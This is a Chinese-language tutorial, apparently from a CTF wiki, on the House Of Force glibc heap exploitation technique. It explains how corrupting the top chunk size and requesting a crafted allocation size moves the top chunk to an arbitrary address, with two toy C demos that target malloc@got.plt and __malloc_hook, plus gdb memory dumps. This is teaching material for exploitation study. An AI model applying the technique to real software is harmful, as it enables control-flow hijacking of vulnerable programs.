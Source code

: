 # House Of Force

## 介绍
House Of Force属于House Of XXX系列，House Of XXX指的是2004年一篇名为《The Malloc Maleficarum-Glibc Malloc Exploitation Techniques》的文章中提出的一系列针对glibc漏洞的利用方法。<br>
但是由于年代久远《The Malloc Maleficarum》中提出的大多数利用在今天都不能奏效，我们现在所指的House Of XXX利用相比2004年文章中写的已有较大的不同。但是《The Malloc Maleficarum》依然是一篇推荐阅读的文章，你可以在这里读到它的原文：
https://dl.packetstormsecurity.net/papers/attack/MallocMaleficarum.txt

## 原理
House Of Force是一种堆溢出的利用方法，当然能够通过House Of Force进行利用的可能不只是堆溢出漏洞。如果一个堆(heap based)漏洞想要通过House Of Force方法进行利用，需要以下条件：

* 1.用户能够以溢出等方式控制到top chunk的size域
* 2.用户能够自由的控制堆分配尺寸的大小

House Of Force产生的原因在于glibc对top chunk的处理，根据前面堆数据结构部分的知识我们得知，进行堆分配时会从top chunk中分割出相应的大小作为堆块的空间，因此top chunk的位置会发生上下浮动以适应堆内存分配和释放。

HOF的利用思想可以概括为一句话：
当使用top chunk分配堆块的size值是由用户控制的任意值时会发生什么？
答案是，可以使得top chunk移动到我们想要达到的任何位置，这就相当于一次任意地址写。
<br>
然而在glibc中，会对用户请求的大小和top chunk现有的size进行验证
```
// 获取当前的top chunk，并计算其对应的大小
victim = av->top;
size   = chunksize(victim);
// 如果在分割之后，其大小仍然满足chunk的最小大小，那么就可以直接进行分割。
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```
然而，如果可以篡改size的大小为一个很大值，就可以轻松的通过这个验证，这也就是我们前面说的需要一个能够控制top chunk size域的漏洞。

```
(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
```
一般的做法是把top chunk的size改为-1，因为在进行比较时会把size转换成无符号数(如上)，因此-1会解释成为一个大数，就可以使得所有64位值都能通过验证。

```
remainder      = chunk_at_offset(victim, nb);
av->top        = remainder;

/* Treat space at ptr + offset as a chunk */
##define chunk_at_offset(p, s) ((mchunkptr)(((char *) (p)) + (s)))
```
之后这里会把top指针更新，接下来的堆块就会分配到这个位置，用户只要控制了这个指针就相当于实现任意地址写任意址(write-anything-anywhere)



## 简单示例
在学习完HOF的原理之后，我们这里通过一个示例来说明HOF的利用
这个例子的目标是通过HOF来篡改malloc@got.plt实现劫持程序流程

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;        // <=== 这里把top chunk的size域改为0xffffffffffffffff
    malloc(-4120);  // <=== 减小top chunk指针
    malloc(0x10);   // <=== 分配块实现任意地址写
}
```

首先，我们分配一个0x10字节大小的块

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
0x602030:	0x0000000000000000	0x0000000000000000
```
之后把top chunk的size改为0xffffffffffffffff，在题目中这一步可以通过堆溢出等漏洞来实现。
因为-1在补码中是以0xffffffffffffffff表示的，所以我们直接赋值-1就可以。

```
0x602000:	0x0000000000000000	0x0000000000000021 <=== ptr
0x602010:	0x0000000000000000	0x0000000000000000
0x602020:	0x0000000000000000	0xffffffffffffffff <=== top chunk size域被更改
0x602030:	0x0000000000000000	0x0000000000000000
```
注意此时的top chunk位置，当我们进行下一次分配的时候就会更改top chunk的位置到我们想要的地方

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602020 <=== top chunk此时一切正常
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
接下来我们执行`malloc(-4120);`，-4120是怎么得出的呢？
首先明确要写入的目的地址，这里我编译的情况0x601020是malloc@got.plt的地址

```
0x601020:	0x00007ffff7a91130 <=== malloc@got.plt
```
之后明确当前top chunk的地址，根据前面描述，top chunk位于0x602020
所以我们使用0x601020-0x602020-0x10=-4120,之所以要减去0x10是为了刨除chunk header的偏移
当调用`malloc(-4120)`之后，我们可以观察到top chunk被抬高到我们想要的位置

```
0x7ffff7dd1b20 <main_arena>:\	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000601010 <=== 可以观察到top chunk被抬高
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们分配的块就会出现在0x601010+0x10的位置，也就是0x601020可以更改got表中的内容了。

## 简单示例2
在上一个示例中我们演示了通过HOF使得top chunk的指针减小来修改位于其上面(低地址)的got表中的内容，
但是HOF其实也可以使得top chunk指针增大来修改位于高地址空间的内容，我们通过这个示例来演示这一点

```
int main()
{
    long *ptr,*ptr2;
    ptr=malloc(0x10);
    ptr=(long *)(((long)ptr)+24);
    *ptr=-1;                 <=== 修改top chunk size
    malloc(140737345551056); <=== 增大top chunk指针
    malloc(0x10);
}
```
我们可以看到程序代码与简单示例1基本相同，除了第二次malloc的size有所不同。
这次我们的目标是malloc_hook，我们知道malloc_hook是位于libc.so里的全局变量值，首先查看内存布局

```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/vb/桌面/tst/t1
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/桌面/tst/t1
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/桌面/tst/t1
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```
可以看到heap的基址在0x602000，而libc的基址在0x7ffff7a0d000，因此我们需要通过HOF扩大top chunk指针的值来实现对malloc_hook的写。
<br>
首先由调试得知__malloc_hook的地址位于0x7ffff7dd1b10，采取计算0x7ffff7dd1b00-0x602020-0x10=140737345551056
经过这次malloc之后，我们可以观察到top chunk的地址被抬高到了0x00007ffff7dd1b00

```
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x00007ffff7dd1b00 <=== top chunk
0x7ffff7dd1b80 <main_arena+96>:	0x0000000000000000	0x00007ffff7dd1b78
```
之后，我们只要再次分配就可以控制0x7ffff7dd1b10处的__malloc_hook值了

```
rax = 0x00007ffff7dd1b10
    
0x400562 <main+60>        mov    edi, 0x10
0x400567 <main+65>        call   0x400410 <malloc@plt>
```

## 小总结
在这一节中讲解了House Of Force的原理并且给出了两个利用的简单示例，通过观察这两个简单示例我们会发现其实HOF的利用要求还是相当苛刻的。

* 首先，需要存在漏洞使得用户能够控制top chunk的size域。
* 其次，需要用户能自由控制malloc的分配大小
* 第三，分配的次数不能受限制

其实这三点中第二点往往是最难办的，CTF题目中往往会给用户分配堆块的大小限制最小和最大值使得不能通过HOF的方法进行利用。



